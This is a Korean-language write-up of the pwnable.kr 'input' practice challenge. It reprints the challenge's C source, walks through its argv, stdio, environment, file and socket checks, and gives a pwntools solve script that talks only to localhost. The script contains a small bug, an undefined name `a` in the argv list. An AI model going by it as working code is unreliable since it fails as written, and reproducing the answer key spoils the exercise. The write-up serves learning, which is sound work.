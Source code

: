 ```yaml
---
layout: post
title: pwnable input
categories: [pwnable]
tags: [pwnable, Toddler's Bottle]
fullview: true
comments: true
use_math: true
author: fault2000
---
```


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
        printf("Welcome to pwnable.kr\n");
        printf("Let's see if you know how to give input to program\n");
        printf("Just give me correct inputs then you will get the flag :)\n");

        // argv
        if(argc != 100) return 0;
        if(strcmp(argv['A'],"\x00")) return 0;
        if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
        printf("Stage 1 clear!\n");

        // stdio
        char buf[4];
        read(0, buf, 4);
        if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
        read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
        printf("Stage 2 clear!\n");

        // env
        if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
        printf("Stage 3 clear!\n");

        // file
        FILE* fp = fopen("\x0a", "r");
        if(!fp) return 0;
        if( fread(buf, 4, 1, fp)!=1 ) return 0;
        if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
        fclose(fp);
        printf("Stage 4 clear!\n");

        // network
        int sd, cd;
        struct sockaddr_in saddr, caddr;
        sd = socket(AF_INET, SOCK_STREAM, 0);
        if(sd == -1){
                printf("socket error, tell admin\n");
                return 0;
        }
        saddr.sin_family = AF_INET;
        saddr.sin_addr.s_addr = INADDR_ANY;
        saddr.sin_port = htons( atoi(argv['C']) );
        if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
                printf("bind error, use another port\n");
                return 1;
        }
        listen(sd, 1);
        int c = sizeof(struct sockaddr_in);
        cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
        if(cd < 0){
                printf("accept error, tell admin\n");
                return 0;
        }
        if( recv(cd, buf, 4, 0) != 4 ) return 0;
        if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
        printf("Stage 5 clear!\n");

        // here's your flag
        system("/bin/cat flag");
        return 0;
}
```

이번 input.c 파일은 여러 stage가 있고, 이 stage 속 조건을 차례로 모두 통과하면 flag를 얻을 수 있는 구조이다. 주석 기준 차례대로 살펴보자.  

```c
// argv
if(argc != 100) return 0;
if(strcmp(argv['A'],"\x00")) return 0;
if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
printf("Stage 1 clear!\n");
```

먼저 argv, 인자를 체크하는 과정이다.  
1. argc, 인자의 개수가 100개
2. argv['A'] = "\x00"
3. argv['B'] = "\x20\x0a\x0d"
총 3가지 조건을 가지며 그러면 Stage 1 clear.

```c
// stdio
char buf[4];
read(0, buf, 4);
if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
read(2, buf, 4);
if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
printf("Stage 2 clear!\n");
```

fd에서 했던 내용으로, 0으로 읽으므로 stdin, 표준 입력으로 \x00\x0a\x00\xff, 표준에러로 \x00\x0a\x02\xff를 입력해주어야한다.  

```c
// env
if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
printf("Stage 3 clear!\n");
```

단순히 \xde\xad\xbe\xef 환경변수에 \xca\xfe\xba\be가 들어있는지 확인한다.  

```c
// file
FILE* fp = fopen("\x0a", "r");
if(!fp) return 0;
if( fread(buf, 4, 1, fp)!=1 ) return 0;
if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
fclose(fp);
printf("Stage 4 clear!\n");
```

파일 중 이름이 \x0a라는 파일을 열고, 이 파일 속 내용을 읽어와 첫 4바이트가 \x00\x00\x00\x00인지 확인한다.  

```c
// network
int sd, cd;
struct sockaddr_in saddr, caddr;
sd = socket(AF_INET, SOCK_STREAM, 0);
if(sd == -1){
        printf("socket error, tell admin\n");
        return 0;
}
saddr.sin_family = AF_INET;
saddr.sin_addr.s_addr = INADDR_ANY;
saddr.sin_port = htons( atoi(argv['C']) );
if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
        printf("bind error, use another port\n");
        return 1;
}
listen(sd, 1);
int c = sizeof(struct sockaddr_in);
cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
if(cd < 0){
        printf("accept error, tell admin\n");
        return 0;
}
if( recv(cd, buf, 4, 0) != 4 ) return 0;
if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
printf("Stage 5 clear!\n");
```

여기서 막혔었는데, 뭐가 많기만 하지 내용은 별 것 없다. argv['C']를 정수형으로 변환한 값을 포트번호로 소켓서버를 열고, 계속 듣고 있는데, 이 포트에 \xde\xad\xbe\xef를 보내주면, buf에 받아 비교한다.  

---

익스는 pwntools를 통해 작성하였다. 현재 input 디렉토리에는 쓰기 권한이 없어 파일을 만드는 것도 그렇고 제약이 있다. 그래서 우리는 /tmp 디렉토리로 이동하여 익스를 작성하며 flag를 심볼릭 링크를 통해 가져와 flag 파일이 /tmp에 없음을 해결한다.  

pwntool을 이용한 코드는 다음과 같다.  

```python
# 아래 주석이 있어야 한국어 오류 없이 컴파일됨.
# -*- coding: utf-8 -*-
from pwn import *

# stage 1
argvs = [a for _ in range(100)] # argc == 100
argvs[ord('A')] = '\x00' # argv['A'] == '\x00'
argvs[ord('B')] = '\x20\x0a\x0d' # argv['B'] == '\x20\x0a\x0d'

# stage 2
with open('./stderr', 'a') as f: # stderr == read(2, ...)
    f.write('\x00\x0a\x02\xff')

# stage 3
envVal = {'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'}

# stage 4
with open('./\x0a', 'a') as f:
    f.write('\x00\x00\x00\x00')

# stage 5
argvs[ord('C')] = '33333' # 아무 포트나 열어주기, 대신 너무 낮은 수는 다른 포트와 겹칠 수 있으니 주의

target = process(executable = '/home/input2/input', argv=argvs, stderr=open('./stderr'), env=envVal) # input 실행, 인자 전달 및 에러 전달, 환경변수 전달

target.sendline('\x00\x0a\x00\xff') # stage 2의 표준 입력 전달

conn = remote('localhost','33333') # 포트 argv['C']와 같은 포트 open
conn.send('\xde\xad\xbe\xef') # 포트에 값 전달
target.interactive()
```

![image](https://user-images.githubusercontent.com/73513005/189639947-7c31d09b-f946-449e-82b6-fc19e100ac09.png)

결과적으로 flag를 얻을 수 있다. 포트나 환경 변수처럼 이걸 어떻게 전달해주어야하나가 더 어려운 문제였다.